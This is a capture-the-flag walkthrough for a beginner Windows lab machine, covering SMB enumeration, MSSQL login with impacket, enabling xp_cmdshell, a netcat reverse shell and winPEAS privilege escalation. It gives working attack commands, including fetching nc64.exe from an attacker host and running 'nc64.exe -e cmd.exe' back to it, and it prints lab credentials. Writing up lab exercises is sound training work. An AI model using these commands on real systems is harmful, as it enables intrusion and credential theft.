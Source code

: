 # Intro
| Dificulty | OS | Start Date | End Date |
|---|---|---|---|
| Very Easy | Windows | 26/05/2022 | 28/05/2022 |


# Thought process
1. Common enumeration
2. Check `smbclient`
3. Use `impacket`
4. Try to execute reverse shell and find the user flag.
5. Privilege Escalation to find root flag.


# smbclient
> Check Samba Server from Linux
```bash
$ smbclient -N -L @Target_IP
```
[-N]: Suppresess the normal password prompt from the client to the user
[-L]: List what services are aviable

There's a folder call it "backups" that probably has more information.

> Access Samba folder
```bash
$ smbclient -N \\\\@Target_IP\\folder_name
```

`get file_name` To download file to our local machine.
[//]: The file is located in the directory from which the connection was established.

In these file we can see that there's a usrname:password.

> Bounty
```
ARCHETYPE\ sql_svc
M3g4c0rp123
```


# impacket
Collection of Python classes for working with network protocols. 
Impacket  is focused on providing low-level programmatic access to the packets and for some protocols. 

Download [Link](https://github.com/SecureAuthCorp/impacket)

> Connect to MSSQL
```bash
~/HTB/impacket/examples
└─$ python3 mssqlclient.py username@Target_IP -windows-auth
```
[-windows-auth]: Use Windows Authentication (Default False)


# MSSQL Server
Exploration Journey Link:
[Link 1](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)
[Link 2](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

First check what role does the user has `SELECT is_srvrolemember('sysadmin');`
[//]: 1 = True

We can set up command execution because the user has admin privileges.

>  Set up System Command Execution
```sql 
SQL> EXEC sp_configure 'show advanced options', 1; — priv  
SQL> RECONFIGURE; — priv 
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1; — priv  
SQL> RECONFIGURE; — priv
```
[//]: Found in Link 2
[- priv]: Administrator privileges need it.

Now the server permits system commands.

> Test System Commands Execution
```SQL
SQL> xp_cmdshell "whoami";
```


# Reverse Shell
Now, attempt to get stable reverse shell. 
Use `nc64.exe` to execute interactive `cmd.exe` process on our listening port.
Download [Link](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------)

> Simple HTTP server
```bash
$ sudo python3 -m http.server 80
```

> Netcat Listener
```bash
$ sudo nc -lvnp 443
```
[netcat]: Read and Write data in the network.
[-l]: Listen incoming connection
[-v]: Verbose output
[-n]: Do not do DNS
[-p]: Specifies source port nc should use

Check the actual server directory. If the user doesn't have permission, change it.

> Current Server Directory
```sql
SQL> xp_cmdshell "powershell -c pwd";
```

In the current directory sql_svc does not have permission to execute things. 

> Change to user directory and execute Reverse shell
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://IP/nc64.exe -outfile nc64.exe"
```

Verify if  the simple Python HTTP server recibed the request

> Execute Reverse Shell
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe @IP 443"
```

Now look back to the listener to confirme that reverse shell is working.

The user flag is in the user's Desktop.

---

# Privilege Escalation
## winPEAS
Is Windows Local Privilege Escalation Vector tool .
Download [Link](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

Transfer winPEAS to the target machine using Python HTTP server.

> Simple HTTP Server
```bash
$ sudo python3 -m http.server 80
```

On the Target Machine, execute wget in order to download the program from the Local Machine. Use powershell to do this process.
```bash
powershell
wget http://@IP/winPEASx64.exe -outfile winPEASx64.exe
```
[//]: User must have permission in that directory

> Exectue winPEAS
```bash
PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe
```

Can observer that we have [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege), which is also vulnerable to [juicy potato exploit](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato).

sql_svc is a normal user so it's worth checking for frequently access files or executed commands. Check the Powershell history file `ConsoleHost_history.txt`.

```bash
cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline
```

The file contains Administrator password.

> Bounty
```
administrator
MEGACORP_4dm1n!!
```

Now execute `psexec.py` from impacket to get a shell as the administrator

```bash
~/HTB/impacket/examples
└─$ python3 psexec.py administrator@Target_IP
```

The root flag can be found in the Desktop of the Administrator user.


# Tags
#winPEAS #MSSQL